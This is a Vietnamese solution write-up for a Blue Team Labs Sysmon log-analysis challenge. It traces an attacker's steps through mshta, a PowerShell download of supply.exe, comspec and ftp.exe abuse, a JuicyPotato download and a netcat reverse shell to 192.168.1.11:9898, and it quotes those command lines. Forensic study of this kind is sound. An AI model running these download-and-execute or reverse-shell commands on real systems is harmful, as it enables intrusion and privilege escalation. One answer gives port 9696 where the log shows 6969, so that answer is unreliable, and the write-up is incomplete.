 ## Description
> You are provided with Sysmon logs from a compromised endpoint. Analyse the logs to find out the steps and techniques used by the attacker.
## Link challenge
> https://blueteamlabs.online/home/challenge/log-analysis-sysmon-fabcb83517
## Solution
> ***What is the file that gave access to the attacker?***

- Đầu tiên em xem xét qua tất cả các phần của file, thấy rằng nó có lưu các lệnh cmd.
- Theo dõi thì thấy có 1 lệnh cmd đáng ngờ.
```
      "CommandLine": "\"C:\\Windows\\SysWOW64\\mshta.exe\" \"C:\\Users\\IEUser\\Downloads\\updater.hta\" {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5} "

    "C:\Windows\SysWOW64\mshta.exe": Đây là đường dẫn đến chương trình Microsoft HTML Application Host (mshta.exe). Nó được sử dụng để chạy các tệp HTA, về cơ bản là các ứng dụng HTML có thể truy cập các tài nguyên hệ thống.
    "C:\Users\IEUser\Downloads\updater.hta": Đây là đường dẫn đến tệp HTA cụ thể được thực thi, có tên là "updater.hta" và nằm trong thư mục Downloads của người dùng IEUser. Cái tên "updater" gợi ý rằng tệp này có thể liên quan đến việc cập nhật một chương trình nào đó.
    {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}: Đây là hai chuỗi giống hệt nhau, có thể là GUID (Globally Unique Identifiers) hoặc một dạng mã định danh khác. Mục đích chính xác của chúng trong lệnh này không rõ ràng, nhưng chúng có thể được sử dụng để truyền thông tin đến ứng dụng HTA hoặc liên kết nó với một quy trình cụ thể.
```

> A : updater.hta

> ***What is the powershell cmdlet used to download the malware file and what is the port?***

- Tiếp tục tìm với command em bắt gặp 1 lệnh như thế này 
``` "CommandLine": "powershell  -c INvoke-WebRequest -Uri http://192.168.1.11:6969/supply.exe -OutFile C:\\Windows\\Temp\\supply.exe"```
- Bắt đầu lệnh powershell tạo 1 kết nối tới web thông qua `-c INvoke-WebRequest` và tải xuống tệp `http://192.168.1.11:6969/supply.exe` và lưu tại `C:\\Windows\\Temp\\supply.exe`
> A : INvoke-WebRequest, 9696

> ***What is the name of the environment variable set by the attacker?***
- Tiếp tục với dòng command bên dưới `"CommandLine": "cmd  \\c set comspec=C:\\windows\\temp\\supply.exe"`
- `set comspec` : tạo 1 biến môi trường cho `C:\\windows\\temp\\supply.exe`
> A : comspec=C:\\windows\\temp\\supply.exe

> ***What is the process used as a LOLBIN to execute malicious commands?***

- Đầu tiên, lolbin là gì ?
```
LOLBin là một kỹ thuật mà tin tặc sử dụng để thực hiện các cuộc tấn công vào hệ thống bằng cách sử dụng các chương trình (tệp thực thi hoặc tệp nhị phân) đã được cài đặt trên hệ thống đó. Các chương trình này không độc hại nên được quản trị viên hệ thống hoặc người dùng nâng cao tin cậy.

Tin tặc thực hiện các hành động độc hại mà không gây nghi ngờ bằng cách lợi dụng các chương trình đáng tin cậy này. Điều này cho phép chúng vượt qua các biện pháp bảo mật được thiết kế để phát hiện và ngăn chặn phần mềm độc hại — vì tin tặc không cần đưa phần mềm hoặc công cụ bổ sung vào hệ thống của nạn nhân.
```
- Trong quá trình đặt biến môi trường có 1 process thực thi cùng đó là ftp.exe
```
  "Image": "C:\\Windows\\SysWOW64\\ftp.exe",
      "IntegrityLevel": "Medium",
      "LogonGuid": "747F3D96-DE82-6094-7713-0F0000000000",
      "LogonId": "0xf1377",
      "OriginalFileName": "ftp.exe",
      "ParentCommandLine": "cmd  \\c set comspec=C:\\windows\\temp\\supply.exe",
      "ParentImage": "C:\\Windows\\SysWOW64\\cmd.exe",
      "ParentProcessGuid": "747F3D96-3099-6095-D204-000000001D00",
      "ParentProcessId": 6844,
      "ProcessGuid": "747F3D96-310F-6095-DB04-000000001D00",
      "ProcessId": 6120,
      "Product": "Microsoft
```
> A : ftp.exe

> ***Malware then downloads a new file, find out the full url of the file download***
- Tại câu hỏi đầu tiên hacker thực thi lệnh và tải về file tại `"CommandLine": "C:\\windows\\temp\\supply.exe /c \"powershell -c INvoke-WebRequest -Uri https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe -OutFile C:\\Windows\\Temp\\juice.exe\"\n",`
> A : https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
> ***What is the port the attacker attempts to get reverse shell?***
- Sau khi tải xuống hacker tạo reverse shell  bằng netcat tại 192.168.1.11 và port 9898 `"CommandLine": "C:\\windows\\temp\\supply.exe /c \"juicy.exe -l 9999 -p nc.exe -a \"192.168.1.11 9898 -e cmd.exe\" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}\"\n",`

> ***Malware executed multiple same commands at a time, what is the first command executed?***
> ***Looking at the dependency events around the malware, can you able to figure out the language, the malware is written***
=> Chưa hoàn thành






